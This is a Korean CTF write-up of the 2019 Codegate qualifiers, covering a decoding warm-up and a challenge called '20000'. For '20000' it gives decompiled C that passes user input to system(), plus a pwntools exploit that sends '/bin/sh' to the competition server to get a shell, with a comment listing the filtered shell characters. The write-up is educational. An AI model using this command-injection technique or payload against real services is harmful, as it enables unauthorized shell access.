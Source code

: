 ```yaml
---
layout: post
title: "2019 Codegate Quals Writeup"
date: 2019-1-31
ctf: Codegate CTF
published : false
---
```


> 팀명 : 앙진헌띠

> 주니어부 23등

어쩌다 보니 본선에 가게되었다.. ㅎㅎ

###  MIC check

9P&;gFD,5.BOPCdBl7Q+@V'1dDK?qL 를 디코딩하라고 한다.

ASCII-85 디코딩 해주면 플래그가 나온다.

![](https://user-images.githubusercontent.com/32904385/51801712-cfde7180-2284-11e9-8a03-aca7a9ee978b.png)

**FLAG : Let the hacking begins ~**

<br />

### 20000

nc 와 20000이라는 바이너리와 20000개의 .so파일이 주어진다.

20000 바이너리의 메인함수이다. 메인에서 1~20000까지 입력받는데 이 입력 받은 수의 라이브러리 파일을 불러와서 test 함수를 실행시켜준다. 그리고 쉘을 따면 될 거 같다.

![](https://user-images.githubusercontent.com/32904385/51801713-d1a83500-2284-11e9-9466-0b858c34431d.png)

```c
signed __int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char *v3; // rax
  signed __int64 result; // rax
  void *v5; // rdi
  char *v6; // rax
  int input; // [rsp+Ch] [rbp-94h]
  void (__fastcall *v8)(void *, const char *); // [rsp+10h] [rbp-90h]
  void *handle; // [rsp+18h] [rbp-88h]
  char s; // [rsp+20h] [rbp-80h]
  int v11; // [rsp+80h] [rbp-20h]
  int v12; // [rsp+84h] [rbp-1Ch]
  unsigned __int64 v13; // [rsp+88h] [rbp-18h]

  v13 = __readfsqword(0x28u);
  print_map();
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  memset(&s, 0, 0x60uLL);
  v11 = 0;
  printf("INPUT : ", 0LL, &v12);
  __isoc99_scanf("%d", &input);
  if ( input <= 0 && input > 20000 )
  {
    printf("Invalid Input", &input);
    exit(-1);
  }
  sprintf(&s, "./20000_so/lib_%d.so", input);
  handle = dlopen(&s, 1);
  if ( handle )
  {
    v5 = handle;
    v8 = dlsym(handle, "test");
    if ( v8 )
    {
      v8(v5, "test");
      dlclose(handle);
      result = 0LL;
    }
    else
    {
      v6 = dlerror();
      fprintf(stderr, "Error: %s\n", v6);
      dlclose(handle);
      result = 1LL;
    }
  }
  else
  {
    v3 = dlerror();
    fprintf(stderr, "Error: %s\n", v3);
    result = 1LL;
  }
  return result;
}
```



하지만 문제가 20000개의 lib 파일에서 무슨 파일인지 알 수 없었다. 왜 20000개인지 알 거 같았다. 마지막 수정 일 순으로 정렬해보면 `lib_17394.so` 파일만 수정일이 오전 10시 37분이였다. 다른 .so파일들은 수정일이 오후 10시 33분이였다. 

![](https://user-images.githubusercontent.com/32904385/51801715-d53bbc00-2284-11e9-99be-09c70874a936.png)



```c
signed __int64 test()
{
  char *v0; // rax
  signed __int64 result; // rax
  char *v2; // rax
  void (__fastcall *v3)(char *, char *); // [rsp+0h] [rbp-B0h]
  void (__fastcall *v4)(char *); // [rsp+8h] [rbp-A8h]
  void *handle; // [rsp+10h] [rbp-A0h]
  void *v6; // [rsp+18h] [rbp-98h]
  char buf; // [rsp+20h] [rbp-90h]
  __int16 v8; // [rsp+50h] [rbp-60h]
  char s; // [rsp+60h] [rbp-50h]
  __int16 v10; // [rsp+90h] [rbp-20h]
  unsigned __int64 v11; // [rsp+98h] [rbp-18h]

  v11 = __readfsqword(0x28u);
  memset(&buf, 0, 0x30uLL);
  v8 = 0;
  memset(&s, 0, 0x30uLL);
  v10 = 0;
  handle = dlopen("./20000_so/lib_4323.so", 1);
  if ( handle )
  {
    v3 = dlsym(handle, "filter1");
    v6 = dlopen("./20000_so/lib_11804.so", 1);
    if ( v6 )
    {
      v4 = dlsym(v6, "filter2");
      puts("This is lib_17394 file.");
      puts("How do you find vulnerable file?");
      read(0, &buf, 0x32uLL);
      v3(&buf, &buf);
      v4(&buf);
      sprintf(&s, "%s 2 > /dev/null", &buf);
      system(&s);
      dlclose(handle);
      dlclose(v6);
      result = 0LL;
    }
    else
    {
      v2 = dlerror();
      fprintf(stderr, "Error: %s\n", v2);
      result = 0xFFFFFFFFLL;
    }
  }
  else
  {
    v0 = dlerror();
    fprintf(stderr, "Error: %s\n", v0);
    result = 0xFFFFFFFFLL;
  }
  return result;
}
```

`lib_17394.so` 를 보면 `lib_4323.so` 라이브러리의 fillter1을 실행시키고 `lib_11804.so` 라이브러리의 fillter2를 실행시켜준다. 그러면 이제 fillter만 우회해서 쉘을 따주면 될 거 같다. system(&s) 를 실행시켜주니까 저기에 쉘을 넣어주면 될 거 같다.

![](https://user-images.githubusercontent.com/32904385/51801716-d66ce900-2284-11e9-848d-62289a7de43f.png)

Exploit Code

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
from ctypes import *

# testlib = CDLL('./c1e3a33d8932a4a61b0e0e0e49d6c9bc/20000_so/lib_17394.so')
"""
Filltering
; * | & $ ` > < v m p d f g l
r bash
"""
#p = process('././c1e3a33d8932a4a61b0e0e0e49d6c9bc/20000')
p = remote('110.10.147.106',15959)
print p.sendlineafter('INPUT :','17394')
print p.sendlineafter('How do you find vulnerable file?','/bin/sh')
p.interactive()
```



![](https://user-images.githubusercontent.com/32904385/51801718-d79e1600-2284-11e9-8e04-7fdd0e9f8c27.png)

**FLAG : Are_y0u_A_h@cker_in_real-word?**

